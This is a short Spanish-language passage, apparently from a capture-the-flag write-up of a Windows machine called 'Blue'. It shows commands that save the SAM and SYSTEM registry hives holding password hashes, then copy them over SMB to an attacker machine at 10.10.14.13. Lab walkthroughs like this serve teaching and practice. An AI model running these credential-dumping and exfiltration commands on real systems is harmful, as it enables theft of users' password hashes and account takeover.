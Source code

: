 ## Técnicas de persistencia

### Obtener hashes usuarios del sistema

Obteniendo una copia de los archivos `system` y `sam`

```bash
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Obteniendo:

![Untitled](/assets/img/Blue/Untitled20.png)

Transfiriendo estos archivos a nuestra máquina atacante a través de `impacket-server`

```bash
#Copiar Windows -> Linux
copy sam.backup \\10.10.14.13\smbFolder\sam
copy system.backup \\10.10.14.13\smbFolder\system
```

![Untitled](/assets/img/Blue/Untitled21.png)
